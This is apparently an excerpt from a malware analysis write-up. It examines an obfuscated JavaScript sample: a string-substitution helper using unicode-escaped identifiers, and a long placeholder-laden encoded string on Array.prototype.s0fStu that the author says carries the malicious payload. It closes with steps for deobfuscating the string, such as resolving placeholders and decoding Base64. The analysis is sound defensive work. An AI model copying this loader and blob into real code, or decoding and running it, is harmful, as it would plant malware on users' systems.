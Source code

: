    ```javascript
            Array.prototype.om0l4d3 = function() {
            var hYiUrF = \u0061\u0072\u0067\u0075\u006D\u0065\u006E\u0074\u0073;
            return this[0]["replace"](exp, function(k3tTlE0, k3tTlE1) {
                try {
                    return hYiUrF[k3tTlE1];
                } catch (ex) {
                    return k3tTlE0;
                }
            });
            }
    ```

    This method leverages regex to find patterns and replaces them based on a lookup in the __hYiUrF__ variable.


## Code Obfuscation

The code passes a huge obfuscated string to `Array.prototype.s0fStu`. I have provided a snippet here for context. The huge obfuscated file carries the actual malicious intent, which needs to be analysed and deobfuscated.

 ```javascript

    Array.prototype.s0fStu = '{2}mFyIG5lbTQ0Ow0K{2}mFyIGxvbm{2}UZXh0ID0{0}IlVFc0{1}CQlEhPi1DIT4tZ0khPi1Fc0x{1}VmshPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi1VIT4tIT4tIT4tIT4tVFVWVVFTMUpUa1l2VFVGT1NVWkZVMVF1VFVhTmtF{1}kx4{1}CE+LVFoZStCL0ljNTZt{1}ml1MXBjZTF1TG5x{2}3JJckkzbV{1}SWm1wb21OVW1SL252alhuUkZSSmpM{2}lBmbVkyWmFjbWF2WThKbkhhTHhyb1pT{1}kp4{2}DNEZGxNMUhYYThoYU5xL0VKV2{1}OMEpTMH{2}1{2}mxNNzhXeGN1cUts{1}V{2}hempaQnVxc2hzYUh5UW{1}L{1}1hDYT{0}1Wml4IT4tZEtmUTNXeUxPNHhLUk{0}3TDEveFhOUmlZSEN{1}UjhjWVpYNz{1}raVpMS1c5{1}HlOV25N{1}1JHOStzU1JvSEpi{2}k1LUy9FU3BUL2cyWFMrTVA5{1}S9iTHhwen{1}zTm0yN2MzOVV3MH{1}HWWVITStIZFchPi10UyE+LXltbEZkQ2MvSmovMEpHMUM4aGNzN0{2}LczYrQk{2}qb0tkelJLTDI1TmlPbHhkcHh4OW{2}GUVN3Y0lKcklvVU8wIT4tIT4tIT4tQ2EhPi1{1}IT4tIT4tVUVz{1}EJCUSE+LUMhPi1nSSE+LUVzTFFWayE+LSE+LSE+LSE+LSE+LSE+LSE+LSE+LSE+LSE+LSE+LSE+LSE+LSE+LSE+LVEhPi0hPi0hPi0hPi1ZMkZ5VE{2}G{2}FltOHZ{1}UzVqYk{2}GemM5VlplV0JVMWZVK2I1bDVNMkchPi0r{2}0poanl4YVNkZ2lvQ3{2}H{1}UlpIT4t{1}VFoQ0UhPi1oYk{2}KSUIhPi1p{1}Up5WVJObEJnQ3Nnb1NFTUlpaThCQkZnMEpUQ0poODE2MUxWMjBpOWJhMW1wTD{2}kN2F2Y1Vs{2}is5T0VwYUsvZj{0}zNUp2MzNyM3YzbnVXNzU1ej{2}u{1}DFpL09YaUtpZllmbm9SWXVv{2}nQ1SDIzMzBJNE5pcG84ZDMzZH{2}uL3Y2OUIxbGtK{1}WJvSTFVN2xDQlFWWkM0aFNEbW1V{1}kM4Y0ZGOC9OVH{2}vV0JPaCtXaHhEWVpJeE5JSitH{1}VBYNlBzQjZrYmwr{2}T{2}QQnZt{1}1pPWG01T1{2}FaCtGMmZpZzhja1U0Vk{2}SUW40VFVjUXVEUz{1}OSnVj{1}z{0}rVW5wNGNLY3ZQbkppVjlx{1}2xtY2s1c2{1}La3lPb1NJNmJWQmN3aTF2VEppN01KUVZUazZjYmxDYmh1YWMvS1FKeGVHQz{1}qIT4t{1}2{0}0S0xr{2}08wbm40IT4tWm{1}Meml3{2}Xp{1}cU56Y2tN{1}3{1}ZeSttUmNLSjZYblp5MEtoUU1Ha2Q4Z2IyaEpjVCE+LVhnaG1wQm9uL1hpU0{2}CbE9tUVo2{1}U{2}TbUpxVE{0}wT3UweXFGWF{1}rcWtUUmkzUENoV0VjL0x6TU{1}4SG0rSXhHQ3EvT0J5Zzl5Zz{2}{1}{1}WZJcnczWTN5IT4tN0lUVXhKVUNINlJ0NjJlOEY2Q0oxanFGaDlMNGVWQmFnQ0NWIT4tM0J2{1}1{1}{1}{2}lFIK21VZmhV{1}zJFbFhNVDJVOVJjVnp5MktXaWQhPi1KK2k2UWJGTmttZ05KNF{2}DTUpnZT{0}5Un{1}mcHJuVUZLIT4tWm1oZD{2}ZVHBpVk5pYU{1}wZDFTNTZ6YUZubXJTSnFueUxOcmNZWXZJQ21EVGJvUUV{1}WW{0}0c25uIT4tSDk4MFlxZlc4ZnFzS1{2}{1}Nnh{1}eWNETklWUy9r{2}lNxWVU1NFZDaEZpZHhCb3{2}5a3ZwcmNTcjlNTV{2}4IT4tTlZ{1}{1}zMwM1Z0OUJacys4M09LaUJWSCtSUjN3VjkzNX{1}3{1}Dloaj{1}4eUMwSUZoYUZSZ2FMUW{2}Q{2}U{0}1bV{1}GeXhj{1}VVNYjZK{1}SE+LWZZ{2}ktEYnEzVW{1}TYlBrKytnK3hUSElMbmpibCs4bE{2}PUVMyQzJkbGp{1}eXZHNVJT{1}lEzbWh{1}cjFhZDYzY1VlMkkrel{1}UWWJ6TjFQSl{2}YVWNZMVB0T1p2a2ZySjVPWi9YWCszcis1eH{1}';
  ```


At this phase, the next step is to think about how to uncover the obfuscated strings. This involves extracting the obfuscated string from __Array.prototype.s0fStu__ and analysing the meaning of the placeholders __{0}, {1}, and {2}__ to understand their dynamic replacements. Pattern recognition should be employed to identify repeated elements or common functions that reveal underlying functionality. Additionally, attempts should be made to decode any encoded portions, particularly looking for Base64 encoding.
